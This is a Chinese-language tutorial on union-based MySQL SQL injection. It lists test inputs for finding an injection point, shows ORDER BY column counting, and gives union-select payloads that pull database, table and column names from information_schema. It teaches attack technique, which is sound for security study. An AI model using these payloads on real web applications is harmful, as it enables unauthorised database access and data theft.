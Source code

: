 + **判断有无SQL注入：数字型/字符型**

`?id=1`

`?id='1'`

`?id="1"`

`?id=('1')`

`?id=(('1'))`

`?id=("1")`

`?id=(("1"))`

+ **判断列数：order by**

order by的作用是为了爆出select语句选择了几个字段。例如`select id,username,passwd from users order by 3`表示选择出3列字段，并按照第三个字段进行排序。那么对于这条sql语句，order by后的数字只能>=1且<=3，如果`order by 4`数据库就会报错。

+ **爆数据库**

注意union前后的select语句选择的列数要一致，否则语法错误。

```mysql
select id,username,passwd from users where id='1' union select 1,database(),3-- 
```

或者通过group_concat()爆出全部的数据库名。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(schema_name),3 from information_schema.schemata#
```

+ **爆表**

`desc 表名`可以用于查看表的信息。

```
mysql> desc users;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| Id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(255) | YES  |     | NULL    |                |
| password | varchar(255) | YES  |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

sql注入获取表名，一个数据库里可能存在多张表，因此可以使用group_concat函数将所有的表名拼接在一起，

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库名'#
```

或者直接令`table_schema=database()`。

```mysql
select id,username,passwd from users where id='1'
union select 1,group_concat(table_name),3 from information_schema.columns where table_schema=database()--
```

